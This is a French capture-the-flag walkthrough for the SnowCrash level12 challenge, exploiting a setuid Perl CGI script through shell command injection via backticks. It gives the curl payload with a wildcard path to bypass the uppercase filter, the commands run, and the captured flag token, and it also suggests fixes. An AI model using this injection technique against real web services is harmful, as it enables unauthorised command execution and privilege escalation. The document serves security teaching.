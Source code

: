 # README - Exploitation du script level12.pl (CGI Perl)

## Étapes suivies pour obtenir le Flag12

### 1. Identification des fichiers

Le répertoire contient un fichier principal :

```bash
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

- **`level12.pl`** : Un script Perl CGI exécutable avec permissions `setuid` et `setgid`, s'exécutant avec les privilèges de l'utilisateur `flag12`. Il implémente un serveur web simple sur le port 4646.

### 2. Analyse du script `level12.pl`

En lisant le script avec `cat level12.pl`, on observe :

- Il crée un serveur CGI sur `localhost:4646` et accepte les paramètres `x` et `y` via `param()`.
- La fonction `t()` exécute : `@output = `egrep "^$xx" /tmp/xd 2>&1`;` pour rechercher une ligne dans `/tmp/xd` commençant par `$xx` (basé sur `param("x")` après sanitization).
- Le serveur tourne déjà avec les droits de `flag12` (vérifiable avec `netstat -tlnp | grep 4646`).

Test simple :
```bash
level12@SnowCrash:~$ curl localhost:4646/?x=test&y=test
.
```

### 3. Exploitation de la vulnérabilité

La vulnérabilité réside dans l'utilisation des backticks dans la ligne `@output = `egrep "^$xx" /tmp/xd 2>&1`;`, où `$xx` (dérivé de `param("x")`) est inséré directement dans une commande shell sans échappement suffisant. Bien que le sanitization (`tr/a-z/A-Z/` et `s/\s.*//`) limite les entrées aux majuscules et supprime tout après le premier espace, les backticks permettent d'exécuter des commandes arbitraires en injectant une sous-commande (ex. : via `` ` ``).

- Le serveur possède les privilèges de `flag12`, et l'utilisation d'un fichier comme `/tmp/TOKEN` avec un wildcard (`/*/TOKEN`) permet d'exécuter son contenu (ex. : `getflag > /tmp/flag12`) avec ces privilèges, capturant ainsi le token.

### 4. Injection de commande

Crée un fichier avec une commande :
```bash
level12@SnowCrash:~$ echo 'getflag > /tmp/flag12' > /tmp/TOKEN
level12@SnowCrash:~$ curl localhost:4646/?x='`/*/TOKEN`'
..level12@SnowCrash:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

Exemple avec élévation de privilèges :
```bash
level12@SnowCrash:~$ echo 'whoami > /tmp/who' > /tmp/TOKEN
level12@SnowCrash:~$ curl localhost:4646/?x='`/*/TOKEN`'
..level12@SnowCrash:~$ cat /tmp/who
flag12
```

### 5. Passage à l'utilisateur suivant

Utilise le mot de passe récupéré pour passer directement à `level13` (si applicable) :
```bash
level12@SnowCrash:~$ su level13
Password: g1qKMiRpXf53AWhDaU7FEkczr
level13@SnowCrash:~$
```

### Vulnérabilité expliquée

Le script Perl utilise des backticks (`@output = `egrep "^$xx" /tmp/xd 2>&1`;`) pour exécuter une commande shell avec l'input utilisateur (`$xx` basé sur `param("x")`) non suffisamment sanitizé. Bien que `tr/a-z/A-Z/` et `s/\s.*//` limitent les entrées (majuscules uniquement, suppression après espace), l'injection de `` `/*/TOKEN` `` permet d'exécuter le contenu de `/tmp/TOKEN` comme une commande. Les permissions `setuid/setgid` élèvent les privilèges à `flag12`, permettant d'exécuter `getflag` avec succès. Une correction impliquerait d'échapper l'input (ex. : `quotemeta($xx)`) ou d'éviter les backticks au profit d'une exécution contrôlée (ex. : utiliser une bibliothèque Perl native).

---

### Explications supplémentaires
- **Wildcards** : Le wildcard `/*/TOKEN` est évalué par le shell pour trouver `/tmp/TOKEN`, et son contenu (`getflag > /tmp/flag12` ou `whoami > /tmp/who`) est exécuté, exploitant la vulnérabilité.
- **Différence avec injection directe** : Une injection comme `` `getflag` `` échoue car la commande s'execute directement.
